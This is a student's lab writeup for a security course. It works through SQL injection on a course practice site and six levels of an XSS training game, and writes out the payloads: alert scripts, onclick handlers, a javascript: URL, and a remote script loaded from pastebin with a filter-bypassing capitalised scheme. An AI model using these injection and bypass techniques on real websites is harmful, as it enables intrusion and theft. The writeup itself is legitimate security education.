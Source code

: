 # Crypto II Writeup

Name: Erin Schick
Section: 0101

I pledge on my honor that I have not given or received any unauthorized
assistance on this assignment or examination.

Digital acknowledgement: Erin Schick

## Assignment Writeup

### Part 1 (40 Pts)

So after looking at this question for a while I was very confused. But after some guessing and seeing the hint on piazza I realised that the first letters of the question spelled out SQL. This made me think that I had to use SQL injection to complete the question. Then after looking through the website when you clicked on the items they all had an extrension to the IRL of item?id=* which made me think that I could use this to find the flag.

When I tried something like: http://1337bank.money:5000/item?id=0'or'1=1 I got a "Error: attempted sql injection detected" on the page. I figured the result would have to be something like this so I kept on trying different combinations that basically say the same thing until I got the flag shown below. I used the URL http://1337bank.money:5000/item?id=1' || '1'='1  to get the flag that was on the bottom of the web page.

Whe flag was: CMSC389R-{y0u_ar3_th3_SQ1_ninj@}


### Part 2 (60 Pts)

Level 1:

I inserted <script>alert();</script> into the search bar on the website to advance to the next level. I knew to do this because I've done this before in another class.

Level 2:

I tried just doing the answer for the first level but that didn't work (it posted a blank post) so then I knew that they were removing the injection. So after going through the hints I figured out that you would have to integrate a button or something like that would trigger the alert and that is when my command "<button onclick="alert('hello world')">press</button>" worked.

Level 3:

Since there was no place to insert the information on the website like in a search bar or in a blog post like the levels before I knew I had to use the URL somehow to make the alert come up. I thought that I could somehow use the images on the website to trigger the alert because they were the only objects really on the screen. After looking at the hints and trying a lot of different combinations of the onclick syntax, I came across the result that worked which was added 'onclick='alert('hello')"; to the end of the website URL.

Level 4:

This level was hard... I had to look at the timer.html code and the three hints to see what I needed to do. I figured that I needed to put the injection in where the number of seconds had to go so I kept on playing with alert() syntax but then looked at line 21 in timer.html to really get to see where my code is going to see how I could best inject and alert. It was from there that I found the result which was: ')alert('hello world

Level 5:

Writing normal html scripts weren't working (were being escaped) so I wanted to find another way to input javascript into the URL. I knew I had to do something with the URL because of the hint on the webpage. I started to see the trend on the URL of "something?next=..." so then I thought to make the javascript the "next". This is when I got the result of adding: ?next=javascript:alert('hello world')  to the end of the URL which worked.

Level 6:

This was by far the hardest level. Somehow I wanted to "host" my own js file that would have the alert but I wasn't sure I would be able to do that so after doing a couple google searches I found out that I could use pastebin.com. From there, I created a post on pastebin.com that just said: alert('hello world');   and used the URL for the raw file after the "frame#" stuff in the URL. The URL for the pastebin post was https://pastebin.com/raw/jvz3jcuq therefore the final URL to make the alarm pop up ended in: frame#htTps://pastebin.com/raw/jvz3jcuq 

I had to capitalize one of the t's to make it valid because it wasn't showing the alert otherwise... I foudn this through research online. I knew that the file was inserted after the # so that is why I added the URL to the end like that.
